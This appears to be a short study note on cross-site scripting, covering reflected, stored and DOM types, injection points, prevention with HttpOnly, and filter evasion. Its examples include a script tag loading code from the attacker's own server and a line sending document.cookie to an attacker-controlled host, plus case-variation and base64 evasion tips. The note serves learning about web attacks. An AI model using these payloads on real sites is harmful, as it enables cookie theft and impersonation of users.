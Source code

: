 Javascript payload injection that will be executed on client side.
Three different types:
- Reflected (in http request)
- Stored (in server-side DB)
- DOM (document object model): runtime only (client-side)

Usually, an attacker would use this vulnerability to steal cookies and use them to impersonate another user, like an admin. But with that, we could also perform keylogging, browser printing, ... We could also take control of the machine with old and insecure browsers

On the other hand, to assess a XSS exists, we use the alert

### **Where**
These payloads can be injected at multiple places:
- forms
- profile editing
- headers
- url parameters

### **Prevention**
To remedy to this vulnerability, some sites blacklist some common names (<img\> for example or <button\>), but you can try with <imG\>
Other tentatives comprise characters blacklist

Additionally, to avoid cookie stealing, a header flag `HTTPonly` can be used to prevent JS to access cookies.
### **Example:**
<script>alert(1)</script> in a search bar, which could trigger an alert

<script src="my-server:8080/myscript.js"></script> to use our own server and do anything from the user browser

<script><img src="http://myip?"+document.cookie></script> is the usual way to go to steal cookies (works of course with a server on our side to receive requests)


### Filter evasion

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#base64-encoding

Example would be:
- base64 cookie response (js `btoa` `function``)
